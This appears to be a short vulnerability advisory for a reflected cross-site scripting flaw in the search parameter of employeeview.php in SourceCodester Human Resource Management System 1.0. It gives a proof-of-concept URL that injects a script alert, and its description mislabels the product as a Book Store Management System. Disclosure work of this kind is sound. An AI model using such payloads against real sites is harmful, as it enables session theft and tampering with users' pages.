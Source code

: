 # SourceCodester Human Resource Management System 1.0 /hrm/employeeview.php Cross Site Scripting

Description: Vulnerability was found in SourceCodester Book Store Management System 1.0. A Reflected cross-site scripting (XSS) vulnerability in /hrm/employeeview.php with search handler.

The product(s): https://www.sourcecodester.com/php/15740/human-resource-management-system-project-php-and-mysql-free-source-code.html

Affected product(s)/code base: https://www.sourcecodester.com/sites/default/files/download/oretnom23/hrm.zip

Affected component(s): /hrm/employeeview.php 

# Proof of Concept:

Find an injection

http://localhost/employeeview.php?searchview=Submit+Query&search="tusnj"#

![](images/xss-fuzzing.png)

XSS Exploit

http://localhost/hrm/employeeview.php?searchview=Submit+Query&search=sss%22%3E%3Cscript%3Ealert(document.domain)%3C/script%3E%3Cinput

![](images/xss-confirm.png)